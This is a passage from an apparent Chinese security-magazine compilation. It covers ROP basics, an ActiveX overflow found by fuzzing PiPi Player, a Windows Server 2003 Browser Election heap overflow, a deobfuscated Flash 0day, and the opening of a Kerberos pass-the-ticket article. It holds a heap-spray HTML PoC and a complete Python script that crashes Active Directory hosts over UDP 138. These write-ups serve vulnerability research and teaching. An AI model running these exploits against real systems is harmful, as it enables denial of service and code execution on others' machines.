我最大的收获就是我们总是有很多方法来解决问题。成功实现一个堆溢出并且堆喷射到指定的地址是有很多种方法的。例如，很多人使用形如 `0c0c0c0c` 的二进制字符串进行堆喷射，在本文的这种情况下，`21002100` 却是一个很完美的选择。同时，不同于常见的创建 string 对象进行堆喷射，在想喷射到一些 Unicode 类型的地址的时候，指定喷射值为 HTML 元素的 innerHTML 是我知道的最好的办法。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：ROP、栈、攻击

## ROP——一种非常规栈上攻击方法及分析与防御方法介绍

文/图 Shining

本文将要介绍一种不同于传统栈溢出攻击的栈上攻击方式，并给出防御方式的分析。ROP 与传统攻击的区别在于，其所执行的恶意代码并不是事先写好放置在某个位罝，而是利用系统里程序本身以及各个链接库中已存在的代码，通过“ret”拼接而成。简单地说，ROP 代码本身并不是恶意代码，它通过精确部署，将分散在各处的汇编指令组装成了恶意代码。以下先简单介绍背景知识。

栈溢出攻击是一种十分常见的攻击方式，通过修改栈上的返回地址，获得程序控制权，执行事先布置好的攻击代码。不过现在的安全技术已经可以较好地防范这种传统的栈溢出攻击了，以下列举几种常见技术。

- W⊕X：程序地址空间中的页只能同时具有可读或可写中的一种属性。Windows 的 DEP、Linux 的 PaX 都利用了这一项技术。
- ASLR：地址空间随机化。该方法使得用户栈的起始地址随机化，增加构造准确返回地址的难度。
- 此外，还有使用 memory tainting、virus scanners 的方式实时监控系统，来隔离恶意代码。

以上这些方法使得利用栈溢出方式执行恶意代码变得十分困难，然而并未阻止攻击者的步伐，他们利用程序中以及动态库中原有的代码来实现所期望的行为。大家所熟知的 return-to-libc 就是采用了这样的一个概念……

ROP 则不同，它并不依赖于某个函数，它通过很多个以“ret”结尾的 gadget（即指令串）组合自己所要的功能……下面介绍形成 ROP 的基本条件，并给出实例进行分析。


而 ROP 从概念上来说，其执行是由栈指针来决定的，如图 2 所示，栈指针的每一次移动最终都是将其所指向的 word 作为地址传送到 EIP 中，作为下条执行指令的地址，而这正是通过 ROP 每一段 gadget 结尾处的 ret 来完成的。


执行机制上的不同，导致 ROP 要实现传统程序的功能需要一番变化，下面列举几个变化，如图 3、图 4 所示。


图 3 是传统方式和 ROP 方式获取立即数的方法：传统方式只需要指向 `mov [immediate constants], %ecx`（注：本文图中汇编均使用 Linux 汇编），而 ROP 则要将立即数存放于栈中，通过出栈获得。


图 4 是传统方式和 ROP 方式进行跳转的方法：传统方式直接指向要跳转的目标地址或者相对偏移地址。而 ROP 则要将跳向的地址存放于栈中，通过出栈至 ESP 获得。

经过了上面简单的介绍，下面通过一个实例来让大家有一个全局的了解。要生成一段 ROP 代码，至少有以下步骤：

- 1. 获取 gadget 的地址
  - 比如要获取立即数，可能会使用 `pop %ebx; ret`（`ret n`、`lret` 等也可使用，视情况而定）。
  - 需要在进程空间或者库中去寻找对应机器码，并根据库在系统中的加载地址计算其内存地址。
  - 需要注意 ROP 所需 gadget 都必须以 `ret` 结尾，不同机器和库版本在 ASLR 影响下地址可能不同。
- 2. 组装所获取的地址
  - 下面的例子只是利用 ROP 代码计算 `2000+11`，更多功能可按同样原理扩展。

```c
char shellcode[] = {
  "Addr1" // 此处只是做地址实例，对应于 Addr1 的地址需要自行查找，不同机器很可能不一样
  "\x00\x00\x00\x7D" // 2000
  "Addr2"
  "\x00\x00\x00\x0B" // 11
  "Addr3"
};
```

```c
void test_fun(char *sc)
{
    char buffer[8];
    strcpy(buffer + 12, sc);
}

int main()
{
    test_fun(shellcode);
    return 0;
}
```


传统方式和 ROP 的最大不同就在于 Shellcode 中的内容。传统代码除了如图 5 左边的核心代码外还要添加其他地址重置的操作，让执行跳转到目标代码；ROP 则不同，在获取了控制权后便可以开始执行目标代码，并且本身并不含有恶意代码，图 5 右边的三条 gadget 单独来看没有特殊功能，但组合到一起便有了意义。

对于现有的内存检测方法，可以很容易检测到最终以明文形式存在于内存中的恶意代码，而 ROP 则可以轻松绕过这一点，因为它本身只是由一连串的地址组成。

但是生成通用 ROP 则是个比较麻烦的工作，本文只是个极其简单的例子，抛砖引玉，感兴趣的读者可以对 ROP 进一步了解。

- 1. ROP 的内容是由地址串组成的，可打印字符串范围通常是 `0x21 ~ 0x7E`，ROP 中大量字节处于该范围之外，比例和正常程序有差别。
- 2. 每个 gadget 通常都不长，完成一个功能需要很多 gadget 拼接，因此会出现大量 `ret` 指令，运行过程中的 `ret` 频率可作为检测点。
- 3. ROP 依赖系统现有代码；若修改关键函数使目标机器码片段失效，可能导致拼接失败，从而达到预防目的；此外监控返回地址的方法同样可用于检测。

前置知识：汇编  
关键词：皮皮、溢出、漏洞

## 皮皮播放器溢出漏洞挖掘

文/图 niusksk（泉哥）


前些时日关于阿里旺旺的 ActiveX 控件溢出 0day 漏洞在网上闹得很火，此漏洞被安恒的朋友和爱无言大牛同时挖到，后被无言牛曝光在 WooYun 上面，随后阿里就及时补上了，其在漏洞响应处理上面还是比较神速的。刚好这段时间，TX 某牛给了个小任务测试能力，要求找出 TX 的漏洞，不限主机、Web、软件，于是就下载了不少软件进行测试，报告也已于昨日上交了。由于皮皮是原先就安装好的，因此在测试过程中就顺手对其进行了测试，但没想到还真找到了一个溢出漏洞。被发现溢出漏洞的软件全称叫皮皮播放器，版本号为 2.8.0.0。皮皮是一款当时流行的用于在线观看电影的软件，是由皮皮网推出的一款基于 P2P 技术的影视播放软件。软件集点播、下载和在线观看于一体，为用户提供免费高清电影、电视剧。该软件更新较慢，最近的一次更新是 2010 年 11 月 30 日，距今已过数月了。

在笔者测试过程中，发现皮皮播放器居然存在严重的远程溢出漏洞，攻击者可通过此漏洞对已安装此软件的用户主机执行任意代码，对用户电脑安全造成严重威胁。这次的测试过程，我是直接用 COMRaider 对皮皮的 ActiveX 控件进行 fuzzing 测试。首先安装好皮皮播放器，由于先前我已经安装过，这步略过。接着打开 COMRaider，单击“Start”按钮，然后在“Select COM Server”中选择“Choose from controls that should be loadable in IE”单选项，以检测出电脑上所有可在 IE 中加载的 ActiveX 控件，如图 1 所示。再单击“Next”按钮，找到皮皮的 ActiveX 控件，选中后右键单击，在弹出菜单中选择“Fuzz Selected”命令，如图 2 所示。


图 1


图 2

接着单击“Begin Fuzzing”按钮，经过一段时间的 fuzzing 后，可以看到在 PlayURL 和 PlayURLWithLocalPlayer 两个函数中出现了明显的访问异常，如图 3、图 4 所示。


图 3


图 4

两个函数都出现了 `0x41414141` 的地址访问违例，现在我们以 PlayURL 接口函数为例，右键单击对应函数的 wsf 测试文件，选择“View File”命令打开对应的测试文件，如图 5 所示。


图 5

打开后的测试文件内容如下：

```xml
<?XML version='1.0' standalone='yes'?>
<package><job id='DoneInVBS' debug='false' error='true'>
  <object classid='clsid:A74BF134-5213-46B5-AF36-CE1888315DC7' id='target'/>
  <script language='vbscript'>
    'File Generated by COMRaider v0.0.133 - http://labs.idefense.com
    WScript.echo typename(target)
    'for debugging/custom prolog.
    targetFile = "C:\pipi\PIPIWE~1.OCX"
    prototype = "Sub PlayURL ( ByVal bstrURL As String )"
    memberName = "PlayURL"
    progid = "PIPIWebPlayerLib.PIPIWebPlayer"
    argCount = 1
    arg1 = String(9236, 'A')
    target.PlayURL arg1
  </script></job></package>
```

可见它是用一连串的 A 来填充 PlayURL 函数的调用参数，并且出现了 `0x41414141` 的访问违例，因此可初步判断此处可能存在溢出漏洞。下面我直接用 heap spray 写了一份 POC 作为测试，源码如下：

```html
<html>
<body>
<object classid='clsid:A74BF134-5213-46B5-AF36-CE1888315DC7' id='target'></object>
<script>
shellcode = unescape("%uc931%ue983%ud9de%ud9ee...");
nops = unescape("%u9090%u9090");
headersize = 20;
slackspace = headersize + shellcode.length;
while (nops.length < slackspace) nops += nops;
fillblock = nops.substring(0, slackspace);
block = nops.substring(0, nops.length - slackspace);
while (block.length + slackspace < 0x50000) block = block + block + fillblock;
memory = new Array();
for (counter = 0; counter < 200; counter++) {
  memory[counter] = block + shellcode;
}
url='';
for (counter = 0; counter <= 5000; counter++) {
  url += unescape("%0D%0D%0D%0D");
}
target.PlayURL(url);
</script>
</body>
</html>
```

测试结果如图 6 所示。


图 6

关于 `PlayURIWithLocalPlayer` 函数的测试方法也是相同的，直接将代码中的“`target.PlayURI(url);`”改为“`target.PlayURIWithLocalPlayer(url)`”即可，测试后结果如图 7 所示。


图 7

经过上面的测试可以发现，这两个函数确实存在严重的溢出漏洞，恶意用户利用它可执行任意代码。后来我将此漏洞提交到 wooyun 站点上，公布后百度的非零……解同学在 QQ 上找到我，说他发现了皮皮的另一个漏洞，是另一个叫 `ifCheck.dll` 文件名中的 `seiCookie[]` 函数，但是用 ComRaider 测试并没有出现异常，而是用 IE 打开测试文件，也就是 ComRaider 上面的“Test Exploit in IE”选项，打开并加载 ActiveX 控件后结果如图 8 所示。


图 8

后来我也用 heap spray 写了个 exploit 进行测试，发现还真的可以利用，如图 9 所示。


图 9

因此有时在用 ComRaider 进行 fuzzing 测试时，不要过度依赖于它，特别对于整个函数在进行测试时一直出现 timeout，并且在 IE 中测试时出现如图 8 所示的情况，最好再写个 PoC 测试一下，以防 0day 与你擦肩而过，切记！

前置知识：汇编  
关键词：Win2003、活动目录、漏洞

## Win2003 活动目录堆溢出

### 漏洞分析手记


文/图 coldzeroleft

不久前，大约在 2011 年 2 月 20 日的时候，突然接到一个漏洞分析的任务，当时上网一查，在 exploit 上已经发出了 PoC，输入关键词能够在各处网站找到一样的 PoC。可能由于漏洞危害有点广并且很严重，事实上微软早在 2011 年 2 月 7 日就已经“悄悄”发出了补丁，而在 2 月 14 日 exploit 网上才公布该漏洞的 PoC。有关漏洞的信息在 exploit 网上，网址是：  
http://www.exploit-db.com/exploits/16166，相信大家根据里面提到的关键词，也能在网上找到许多相关内容。

下面来看看这个漏洞，根据网上千篇一律的转载 PoC 和环境说明，我自己搭建了一个测试环境：Win Server 2003 虚拟机、PoC 代码、Python 相关编译工具（我用的是 Python 2.7）。

首先，要求我们在 Windows Server 2003 中安装 AD（活动目录），这个可以在控制面板中通过 Windows Server 2003 的光盘安装。在安装的过程中，我将活动目录的域名命名为 ISC（这个随意，但是得记住）。活动目录是一个用户广泛的东西，例如在银行内部，还有一些服务器上，往往都离不开它，所以这个漏洞可以针对的范围应该比较广泛。另外 AD 目录会打开主机的 138 端口，这就是漏洞触发的一个关键位置，异构的数据包通过该端口传入，并由 SMB 处理，最后导致系统死机。

其次，这里的 PoC 代码我们需要按照实际的网络情况进行简单地修改，修改后的代码（黑体部分为自己添加的注释）如下所示。

### 漏洞触发代码（有修改）

```python
import socket,sys,struct
from socket import *
if len(sys.argv)<=4:
    sys.exit("""usage: python sploit.py UR-IP.BCAST-IP NBT-NAME AD-NAME
example: python sploit.py 192.168.1.10 192.168.1.255 OhYeah AD-NETBIOS-NAME""")
ourip = sys.argv[1]    #本机的 IP
host = sys.argv[2]     #远程主机的 IP
srcname = sys.argv[3].upper()   #远程主机用户名
dstname = sys.argv[4].upper()   #远程主机的域名
ELEC = "\x42\x4f\x00"
WREDIR = "\x41\x41\x00"

def encodename(nbt,service):
    final = "\x20"+''.join((chr((ord(i)>>4)+ord('A'))+chr((ord(i)&0xF)+ord('A')) for i in nbt))+((15-len(nbt))*str("\x43\x41"))+service
    return final

def lengtlittle(packet,addnum):
    length = struct.pack("<i",len(packet)+addnum)[0:2]
    return length

def lengthbig(packet,addnum):
    length = struct.pack(">i",len(packet)+addnum)[2:4]
    return length

def election(srcname):
    elec = "\x08"
    elec += "\x09"  #Be the boss or die
    elec += "\xa8\x0f\x01\x20"  #Be the boss or die
    elec += "\x1b\xe9\xa5\x00"  #Up time
    elec += "\x00\x00\x00\x00"  #Null, like SDLC
    elec += srcname+"\x00"
    return elec

def smbheaderudp(op="\x25"):
    smbheader="\xff\x53\x4d\x42"
    smbheader+=op
    smbheader+="\x00"
    smbheader+="\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00\x00\x00\x00\x00\x00\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00"
    smbheader+="\x00\x00"
    return smbheader
```

```python
def trans2mailslot(tid="\x80\x00",ip=ourip,sname="LOVE-SDL",dname="SRD-LOVE",namepipe="MAILSLOT\\BROWSER",srcservice="\x41\x41\x00",dstservice="\x41\x41\x00",pbrowser=""):
    packetbrowser = pbrowser
    packetmailslot = "\x01\x00"   #Priority
    packetmailslot += "\x00\x00"   #unreliable & Broadcast
    packetmailslot += "\x02\x00"   #MAILSLOT\\BROWSER
    packetmailslot += lengtlittle(packetbrowser+namepipe,4)
    packetmailslot += namepipe+"\x00" # "\\MAILSLOT\\BROWSER"

    packetdatagram = "\x11" #NetBIOS Datagram Service
    packetdatagram += "\x02" #No.
    packetdatagram += tid      #0x8022
    packetdatagram += inet_aton(ip)  #ip=ourip=192.168.100.243
    packetdatagram += "\x00\x8a"   #port(138)
    packetdatagram += "\x00\xa7"   #Datagram length
    packetdatagram += "\x00\x00"   #Packet Offset
    packetdatagramname = encodename(sname,srcservice) #source name
    packetdatagramname += encodename(dname,dstservice) #destination name

    smbheader = smbheaderudp("\x25") #start make SMB
    packetrans2 = "\x11" #SMB:TransRequest
    packetrans2 += "\x00\x00"
    packetrans2 += lengtlittle(packetbrowser,0)
    packetrans2 += "\x00\x00"
    packetrans2 += "\x00\x00"
    packetrans2 += "\x00"
    packetrans2 += "\x00"
    packetrans2 += "\x00\x00"
    packetrans2 += "\xe8\x03\x00\x00"
    packetrans2 += "\x00\x00"
    packetrans2 += "\x00\x00"
    packetrans2 += "\x00\x00"
    packetrans2 += lengtlittle(packetbrowser,0)  #data count
    packetrans2 += lengtlittle(smbheader+packetrans2+packetmailslot,4) #data offset
    packetrans2 += "\x03"
    packetrans2 += "\x00"

    andoffset = lengtlittle(smbheader+packetrans2+packetmailslot,2)
    lengthcalc = packetdatagramname+smbheader+packetrans2+packetmailslot+packetbrowser
    packetfinal = packetdatagram+packetdatagramname+smbheader+packetrans2+packetmailslot+packetbrowser
    packettotallength = list(packetfinal)
    packettotallength[10:12] = lengthbig(lengthcalc,0)
    packetrnas2final = ''.join(packettotallength)
    return packetrnas2final

def sockbroad(host,sourceservice,dstservice,packet):
    s=socket(AF_INET,SOCK_DGRAM)
    s.setsockopt(SOL_SOCKET,SO_BROADCAST,1)
    s.bind(('0.0.0.0',13800))  #原本为 138，但是可以改成本机未被占用的端口
    try:
        packsmbheader = smbheaderudp("\x25")
        buffer0 = trans2mailslot(tid="\x80\x22",ip=ourip,sname=srcname,dname=dstname,namepipe="MAILSLOT\\BROWSER",srcservice=sourceservice,dstservice=dstservice,pbrowser=packet)
        s.sendto(buffer0,(host,138))
    except:
        print "expected SDL error", sys.exc_info()[0]
        raise

# election("A"*410) 是导致错误的原因，造成了溢出
# 如果构造的 “A” 个数小于 55 的时候，则不会导致溢出
sockbroad(host,WREDIR,ELEC,election("A"*410))  # -> Zing it!
# sockbroad(host,WREDIR,ELEC,election("A"*54))  #Safe
print "Happy St-Valentine Bitches\nMSFT found that one looooooooong time ago..."
```

这里有几个地方需要说明一下：

- Python 脚本语言是以空格来对齐的，并且空格位置处相当于高级语言的“{}”，在编辑时最好不要用 Tab 制表符，至少不要将 Tab 制表符和空格混用。
- 我把原始的 138 端口改为了 13800，有的计算机可能 NetBIOS 服务是开着的，138 端口被系统占用，事实上我们只是需要向远程计算机发包，并非一定要通过本机的 138 端口。
- 原始代码中是 “A*410”，事实上，实际测试中发现，只要超过 55 就会导致远程计算机蓝屏，不一定非得要 410 个 A，当然可能构造堆溢出之后的执行代码例外。

漏洞演示的方法：当修改后的 Python 代码编译通过（事实上 Python 是一种解析执行语言）时，我对 Windows Server 2003 的虚拟机网络部分设置为 Bridge（桥接），如图 1 所示。


然后，我将虚拟机的网络设置在 192.168.100.* 的网段内，因为我也是在这个局域网中。运行一个搜索局域网内主机的小程序，这个小程序的原理就是通过向指定网段内所有主机的 137 端口发送 NetBIOS 数据包，因为 137 端口的主要作用是在局域网中提供计算机名字或 IP 地址查询服务，在安装了 NetBIOS 协议后，该端口会自动处于开放状态，我就能够查到在这个范围内运行的主机。并且按照 PoC 的命令要求以“命令 本地 IP+远程 IP+远程主机用户名+远程主机域名”的方式进行填写，除了 AD 域名以外，其他的数据我们都能从局域网检测的小工具中获得，效果如图 2 所示。


果然，当我按下 Enter 键的时候，装有 Windows Server 2003 的虚拟机“如愿以偿”地蓝掉了，效果如图 3 所示。


假设虚拟机是我们的服务器，这么做肯定就是导致局域网的 DDoS，如果渗透广泛的话后果将不堪设想。另外，有人说 Windows XP 以及 Windows 7 等都有类似的问题，不过这个由于时间有限没有证实，只是我看到在导致漏洞的代码上，Windows XP 和 Windows Server 2003 倒是很相似。

漏洞原因的说明：该漏洞触发的代码，通过异构 NetBIOS 数据包中的应用层部分，特别在最后的部分“Server Name”，构造了一个错误的 Buffer，使得堆溢出。

NetBIOS 数据包结构如图 4 所示。


造成溢出的 Microsoft Windows Browser Protocol 结构如图 5 所示。


在 PoC 中的注释中提到，由于 `mrxsmb.sys` 驱动没有正确处理用户提交的“BROWSER ELECTION”请求，攻击者提交恶意请求可触发缓冲区溢出。同时也指明了错误位置：函数 `BowserWriteErrorLogEntry`。有关函数 `mrxsmb!BowserWriteErrorLogEntry` 的代码详细分析可以到黑防官方网站下载。

通过分析，事实上最早的导致隐含错误的因素来自函数 `IoAllocateErrorLogEntry`，其 WDK 的描述文档如下：

```c
PVOID
IoAllocateErrorLogEntry(
    IN PVOID IoObject,
    IN UCHAR EntrySize
    );

// 省略部分代码
return (IopAllocateErrorLogEntry(
    deviceObject,
    driverObject,
    EntrySize));

函数最终调用了 IopAllocateErrorLogEntry，而 IopAllocateErrorLogEntry 的描述文档开头有段：

PVOID
IopAllocateErrorLogEntry(
    IN PDEVICE_OBJECT deviceObject,
    IN PDRIVER_OBJECT driverObject,
    IN UCHAR EntrySize
    )
```

```c
if (EntrySize < sizeof(IO_ERROR_LOG_PACKET) ||
    EntrySize > ERROR_LOG_MAXIMUM_SIZE) {
    return (NULL);
}
```

在实际程序中的反汇编代码如下：

```asm
nt!IopAllocateErrorLogEntry:
... mov edi,edi
... cmp bl,30h        ; IO_ERROR_LOG_PACKET 大小相关
... jb  nt!IopAllocateErrorLogEntry+0x50
... cmp bl,98h        ; ERROR_LOG_MAXIMUM_SIZE 相关
... ja  nt!IopAllocateErrorLogEntry+0x50
...
ret 0Ch
```

所以这里就说明，`IopAllocateErrorLogEntry` 的最大空间只能是 `98h`，其中一部分属于 `ERROR_LOG_ENTRY` 结构，`70h` 属于存储错误宽字符串的结构。

这里的 `70h` 是限制点，攻击者可利用该大小限制实施攻击。先看 `mrxsmb!BowserWriteErrorLogEntry` 的一段汇编代码：

```asm
... mov eax,dword ptr [ebp-4]
... shr eax,1
... dec eax
... test eax,eax
```

```asm
f9373b16 7639          jbe ...
mrxsmb!BowserWriteErrorLogEntry+0x1a5:
... lea ecx,[eax+eax]
... mov edx,ecx
... shr ecx,2
... rep movs dword ptr es:[edi],dword ptr [esi]
... and ecx,3
... rep movs byte ptr es:[edi],byte ptr [esi]
... and word ptr [ecx],0
```

存储错误宽字符串的空间只有 `70h`。当第一个字符串长度较小时会复制第二个字符串；长度达到临界值时不复制。文中通过构造 `54` 字节与 `55` 字节两种情况说明边界判断问题。

```asm
f9373b11 d1e8   shr eax,1
f9373b13 48     dec eax
f9373b14 85c0   test eax,eax
f9373b16 7639   jbe ...
```

当构造 `55` 字符时，计算结果可能出现 `-1`，导致 `jbe` 判断不跳转，错误路径继续执行，进而在后续复制数据代码中触发异常（蓝屏）。

```asm
... lea ecx,[eax+eax]
... mov edx,ecx
... shr ecx,2
... rep movs dword ptr es:[edi],dword ptr [esi]
```

修补思路包括修正 `jbe` 的边界逻辑以及关闭相关端口。该漏洞说明：对关键错误记录函数的长度校验不严谨，容易成为漏洞诱因。

前置知识：汇编  
关键词：Flash、溢出、漏洞

## 一步步分析最新 Flash Player 0day 漏洞溢出

文 Secunia Research 译 wingdbg

译者：这是一篇从 Secunia 上翻译的文章，原作在 http://secunia.com/blog/210。通过反编译分析 swf 文件对应的 AS 代码，来分析漏洞触发原因。令人新奇的是，漏洞的使用者在 AS 汇编代码中使用了各种混淆方法（跳转、判断等）来扰乱分析者，在编译出来的 swf 文件中也修改了若干字节来对抗 swf 反编译软件。且让我们看看老外是如何突破重重阻挠的。译者在翻译过程的关键地方进行了一些补充，并且提供了自己精简的反编译 AS 汇编代码。

正文：正如我们在之前的博客和 Secunia SA44119 公告中所提到的那样，一个新的 Flash Player 0day 漏洞溢出正在以微软 Word（*.doc）文档的形式四处泛滥。尽管 Adobe 计划明天，也就是 2011 年 4 月 15 日星期五提供一个 Flash Player 的修复补丁，当前这个漏洞并没有被堵住。而且对 Adobe Reader/Acrobat 的修复要推迟到 2011 年 6 月 14 日。

这个 Word 文档样本名为：Disentangling Industrial Policy and Competition Policy.doc。在该文档 0x2E08 偏移处嵌入了一个 swf 文件，这个 swf 文件流长为 0x2775 字节。如下所示：

```text
00002E00 ...
00002E10 ...
00002E20 ...
00002E30 ...
Scene 1 ...
```

嵌入的 swf 在执行时通过调用 flash.display.Loader.loadBytes()（位于“属性标签”）加载了第二个 swf，事实上是第二个 swf 触发了漏洞。由于该文件使用了很多混淆代码来扰乱 ActionScript 反编译器，我们不能直接来分析。这些混淆代码有些造成了崩溃，有些则过早地终止了反汇编。

第一个明显故意的文件变更是对一组常量的大小进行了不正确的声明。即 swf 文件在偏移 0x3D 的数值 0x15 并不和实际常量的大小（0x14）对应，导致一些反编译器开始从一个错误的偏移来解释接下来的代码。

```text
00000030: 0E 12 9D 02 00 4C 04 9D 02 00 18 00 88 15 00 09 ...
```

```text
00000040 ...
48: A B C D E F G H
00000050 ...
01 1 ... default ...
```

这个很容易通过在最后一个常量后面添加另外一个字符来修复。如下所示：

```text
00000050 ...
01 1 ... default ...
```

由于在 DOACTION 标签中不正确的结构组织，反编译器仍然不能很好地显示反编译代码。DOACTION 标签的声明长度为 0x05A7，但是最后包含的标签却组织得很不正确，反编译器会尝试去解释超出长度后面的数据。这个可以通过把 0x5B2 开始的所有字节设置为 0 来解决（直接解释成了结束动作标签）。

现在虽然可以很好地反编译，但是我们会遇到其他的问题：代码中包含了一些不必要的指令，这些指令会使整个代码变得难以阅读。其实这些指令是可以被消除的。下面的代码块显示了其中的一个例子（译者注：作者使用 flasm 软件来进行反编译，具体可查看 http://www.nowrap.de/flasm.html）。

```text
push 1212792920, 1212792921
bitwiseAnd
branchIfTrue label2
label2:
```

显而易见，无论何种情况，label2 标签下的代码都会执行到，上面的判断指令完全可以清除掉。整个代码块中有很多相同的冗余代码，我们都可以通过相同的方法来清除。

除此以外，代码中还通过使用来回跳转使文件的反编译代码看起来更加不清晰。其中一个例子如下：

```text
label2:
branch label17
label3:
new
push 191919126
dup
... multiple lines follow ...
label7:
push X_PROPERTY, UNDEF, X_PROPERTY, c0
```

### branchLabel3

通过把 label7 的内容调整到 label3 前面，我们可以简单地清除两个代码跳转分支指令。

获取一个组织清晰的代码流之后，接下来我们需要解码两个重要的加密字符串。这些字符串为 “VkduhgRemhfw\lsurwrw\sh” 和 “Gdwh\lsurwrw\sh”。通过分析反编译代码我们观察到，在进一步使用之前，常量 “VkduhgRemhfw\lsurwrw\sh” 在调用内部声明函数 “default” 时被当做参数传入。如下所示：

```text
constants 'String', 'length', 'charCodeAt', 'fromCharCode', 'charAt', 'case',
'TextFormat', 'size', 'c_fun',
'VkduhgRemhfw\lsurwrw\sh', 'default',
...
public 8:c9,1,c10//c9 is 'VkduhgRemhfw\lsurwrw\sh' and c10 is 'default'
callFunction
The 'default' function transforms an input string by subtracting 3
from each of its characters.
push r3, r1, 1, r2, c2 //String.charCodeAt
callMethod
push 3
subtract            //String.charCodeAt(i) - 3
push 1, c0          //String
getVariable
push c3             //fromCharCode
callMethod
add
setRegister r3
...
push r3
```

### return

在运行对这两个加密常量的解密过程之后，我们得到了字符串 “SharedObject.prototype” 和 “Date.prototype”。这样我们就可以删除掉加密的函数和各种其他的指令，从而进一步精简代码。

最终，我们可以删除掉超过 250 行的冗余汇编代码，得到下面的 ActionScript 反编译代码。

```javascript
Date.prototype.c_fun = SharedObject.prototype.getSize;
Date.prototype.getDay = function() {
  this.c_fun();
}
var eval(0) = new Date(1.41466385537348e-315);
(eval(0)).getDay();
```

进一步的漏洞分析表明：这个漏洞发生在函数 SharedObject.prototype.getSize() 中。通过这个函数，我们给 Date 类扩展了一个传统的函数。当我们用数值 1.41466385537348e-315 来初始化这个类时，这个值处理后在内存中保存为 0x11111110。0x11111110 是一个很适合喷射的地址。

随后，类成员函数 Date.c_fun()（即通过 SharedObject.prototype.getSize() 扩展得来）被调用，c_fun 错误地将传过来的对象解释为 SharedObject 类型，而在这个类型中，会把 0x11111110 当做一个虚函数表的指针来调用。

总之，这个漏洞分析代码被很大程度地混淆，而且事实上也很有趣。在从 swf 的源代码中编译出来后，swf 文件并不需要任何 ActionScript bytecode 的修改。

前置知识：无

关键词：Kerberos、登录、漏洞

## Kerberos 协议登录服务的漏洞攻击与防御

文 Tommaso, Riccardo 译 小小彬

Kerberos 认证系统是 MIT 为 Athena 项目开发的，采用了对称密码体制。此协议自从被公众接受后，已经被默认为网络认证协议并广泛应用于 Windows 系列版本。推广至今，该协议就一直受到安全界人士的关注，对其进行审查分析，挖掘可能存在的漏洞，导致此协议不断地添加新的功能与各种漏洞的修复。然而，针对某些特定应用或服务类型的协议实现依旧是开放的。特别地，Bouillon 在 2009 年黑帽大会（eu）上发表的文章 “Assess Kerberos-protected networks” 提出了一种新攻击技术：票据传递（pass-the-ticket），其结合了以往各种精湛的攻击手法，伪造大量凭证以获取完整的身份认证。

在真实的 Kerberos 协议认证环境下，我们已经实现了票据传递攻击并测试通过验证。我们的研究发现，当前所有在使用的最新 Windows 系列，包括 Windows XP、Vista Enterprise、Windows 7 专业版，很容易受到攻击。因此，攻击者若能够物理访问目标主机并在目标机与 Kerberos 认证服务器之间充当中间人攻击，则可选择任意密钥以任意身份通过验证。在 Kerberos 协议被默认认为网络认证协议的系统中，这是特别让人不安的。此漏洞缺陷是由于 Windows 系统在实现 Kerberos 登录服务时过度简化导致的。此漏洞已经及时通过 CERT 通告 Microsoft，并已得到确认。本文主要内容：首先快速回顾 Kerberos 协议；其次讨论攻击与防御措施，在哪种环境下此类攻击具有威胁；最后给出部署 Kerberos 协议实现的漏洞攻击测试结果及如何修复此漏洞。

### Kerberos 协议简述

Kerberos 协议是基于可信第三方的认证与密钥分配协议，也被称为密钥分配服务或密钥分配中心 KDC，验证网络中实体的相互身份，并建立密钥以保证计算机间安全连接，确保整个认证过程中涉及的多个实体之间采用密钥方式进行通信。此体制完全基于对称加密原理（后期版本开始支持公钥加密算法）。整个认证过程中涉及的实体如下。

- C(Client)：因为请求某种服务，需要验证的实体。
- AS(Authentication Service)：认证服务器，可信任的第三方用于向客户端发放票据授权票据。
- TGS(Ticket Granting Service)：可信第三方授权给 Client 的最终服务票据，用户使用此票据向自己要求提供服务的服务器证明自己的身份。
- V(Verifier)：最终的服务，也称验证。

注意：AS 和 TGS 在概念上称为两个不同的服务器，但都是作为 KDC 内部的两个函数进行实现。

Kerberos 协议由三次请求/响应的交互构成，如图 1 所示。现假定：Eₖ[X] 即消息 X 采用对称加密算法（包括完整性校验）密钥为 K 进行加密；Nc 表示由 C 选出的一个随机数；Tc 代表客户端时钟的一个时间戳；Ku 表示实体 U 的私钥；Kn 为会话密钥；L 即生存周期，代表特定票据的生存周期，票据定义如下：ticket(U)=Eₖv[Kn,C,L]，而认证器 authentication(Kn)=(C,Tc,[K'ₙ])。其中 K'ₙ 为一子随机会话密钥。三次协议交互工作如下。

**AS REQ/AS REP：** 客户端 C 与 AS 通信交互，从 AS 端获取请求 TGS 的票据，而 TGS 则被下阶段用来请求应用服务 V 的票据。此票据的内容形式：Eₖtgs[K1,C,L]，其中 K1 即新产生的用于 C 与 TGS 之间通信的会话密钥。此密钥会用 C 的私钥 Kc 加密发送给 C。注意，此票据包含一个生存时间值 L，以限制其在一个特定时间内使用（对 TGS 而言，一般为 24h）。随机数 Nc 是由 C 产生，以阻止来自 TGS 的重放攻击。

**TGS REQ/TGS REP：** C 向 TGS 转发接收到的票据及认证器 Eₖ1(C,Tc)，包含时间戳 Tc。TGS 解密此票据，提取出会话密钥 K1，若 TGS 能够成功解密认证器，其时间戳 Tc 处在 Windows 可接受的时间内，TGS 则认定 C 合法。此时 TGS 发送 C 请求某特定服务需要的票据作为响应，及采用 K1 加密的新会话密钥 K2。即使在这种情况下，随机数 Nc 仍能阻止旧会话重放。注意，若客户端 C 需要访问某一特定服务，并已成功获取到了有效 TGS，则此时 C 可跳过 “AS REQ/AS REP 阶段”，直接发送 TGS_REQ，避免密码重新导入（即单点登录方式，用户只需要向网络验证一次身份，之后无须另外验证身份，就可访问所有被授权的网络资源）。

**AP REQ/AP REP：** C 向服务器 V 转发 TGS 授权的服务票据及新产生的认证器，认证器内容用客户端 C 与服务器 V 的会话密钥加密，以保证只有应用服务器 V 才能解开。V 收到消息后，用自己的私钥 Kv 解密服务票据，若成功解密此票据及其认证器内容，则 C 的身份验证通过；且若需要相互认证，V 会使用解密后得到的会话密钥 K₂ 加密自己的验证器并发送给 C。若拒绝对此次服务请求提供票据，则认证将会宣告失败。

### Kerberos 协议攻击与防御

